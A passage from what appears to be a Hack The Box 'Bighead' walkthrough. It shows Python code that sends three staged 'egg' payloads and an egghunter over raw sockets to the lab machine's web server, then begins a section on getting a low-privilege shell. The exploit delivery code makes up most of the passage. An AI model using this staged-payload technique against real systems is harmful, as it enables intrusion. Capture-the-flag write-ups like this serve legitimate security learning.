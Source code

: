 ```python
# send stage 1 - egg (1st)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 1st egg sent!\n")
evil.close()

# send stage 1 - egg (2nd)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 2nd egg sent!\n")
evil.close()

# send stage 1 - egg (3rd)
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("GET", stage1))
evil.recv(1024)
os.write(1, "[+] 3rd egg sent!\n")
evil.close()

# send stage 2 - egghunter
evil = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
evil.connect(("10.10.10.112", 80))
evil.send(request % ("HEAD", stage2))
os.write(1, "[+] Egghunter sent!\n")
evil.recv(1024)
evil.close()
```

## Low-Privilege Shell

I'm guessing a variant of the vulnerable `BigheadWebSvr.exe` is behind `dev.bighead.htb`. The `nginx.conf` that comes with it confirms my hypothesis.

<a class="image-popup">
![8bba27ec.png](/assets/images/posts/bighead-htb-walkthrough/8bba27ec.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/164
[2]: https://www.hackthebox.eu/home/users/profile/6983
[3]: https://www.hackthebox.eu/